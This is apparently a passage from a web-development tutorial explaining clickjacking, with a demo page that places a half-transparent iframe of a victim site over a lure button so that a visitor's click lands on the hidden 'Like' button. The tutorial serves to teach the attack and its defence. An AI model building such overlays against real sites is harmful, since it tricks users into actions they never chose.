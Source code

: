# The clickjacking attack

The "clickjacking" attack allows an evil page to click on a "victim site" *on behalf of the visitor*.

Many sites were hacked this way, including Twitter, Facebook, Paypal and other sites. They are all fixed, of course.

[cut]

## The idea

The idea is very simple.

Here's how clickjacking was done with Facebook:

1. A visitor is lured to the evil page. It doesn't matter how.
2. The page has a harmless-looking link on it (like "get rich now" or "click here, very funny").
3. Over that link the evil page positions a transparent `<iframe>` with `src` from facebook.com, in such a way that the "Like" button is right above that link. Usually that's done with `z-index`.
4. In attempting to click the link, the visitor in fact clicks the button.

## The demo

Here's how the evil page looks. To make things clear, the `<iframe>` is half-transparent (in real evil pages it's fully transparent):

```html run height=120 no-beautify
<style>
iframe { /* iframe from the victim site */
  width: 400px;
  height: 100px;
  position: absolute;
  top:0; left:-20px;
*!*
  opacity: 0.5; /* in real opacity:0 */
*/!*
  z-index: 1;
}
</style>

<div>Click to get rich now:</div>

<!-- The url from the victim site -->
*!*
<iframe src="/clickjacking/facebook.html"></iframe>

<button>Click here!</button>
*/!*

<div>...And you're cool (I'm a cool hacker actually)!</div>
```
